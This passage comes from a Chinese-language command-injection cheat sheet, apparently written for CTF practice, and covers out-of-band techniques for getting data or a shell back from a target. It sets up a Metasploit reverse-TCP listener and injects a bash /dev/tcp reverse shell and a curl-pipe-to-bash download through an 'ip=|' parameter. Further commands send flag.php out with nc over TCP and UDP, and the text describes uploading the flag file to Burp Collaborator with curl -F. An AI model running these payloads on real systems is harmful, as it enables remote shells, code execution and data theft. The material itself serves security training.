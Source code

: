 #### 7、msf反向回连

> 利用条件：目标服务器可以向可通信的公网服务器发起http请求

**1.远程服务器用msf监听：**

```sh
use exploit/multi/handler
set payload linux/armle/shell/reverse_tcp
set lport 4444
set lhost xxx.xxx.xxx.xxx
set exitonsession false
exploit -j
```

**2.目标服务器执行下面命令**

```sh
ip=|bash -i >& /dev/tcp/xxxxx(vps公网ip)/4444 0>&1
#如果上面这条命令在浏览器上执行失败。那么要将上面这条命令写入公网服务器上的一个文件中，在msf开始监听后，在测试点执行下面命令
ip=|curl x.x.x.165:8002/qwzf|bash
```

**3.公网服务器接收shell**
目标服务器上执行命令后，会在公网服务器上接收到，然后在公网服务器上执行以下命令getshell

```sh
sessions -i 1
shell
```

#### 8、使用nc

> 利用条件：要求目标服务器也有nc工具

```sh
#1.公网服务器监听4444端口
nc -tlp 4444

#2.目标服务器执行如下命令
ip=|nc -t x.x.x.165 4444 < flag.php


-u参数调整为udp,当tcp不能使用的时候使用
#1.公网服务器监听4444端口
nc -ulp 4444
#2.目标服务器执行如下命令
ip=|nc -u x.x.x.165 4444 < flag.php
```

9、curl上传文件读取源码

> 利用条件：目标服务器curl命令可以正常执行

利用过程:

使用`curl -F`将flag文件上传到Burp的Collaborator Client(Collaborator Client 类似DNSLOG，其功能要比DNSLOG强大，主要体现在可以查看POST请求包以及打Cookies)
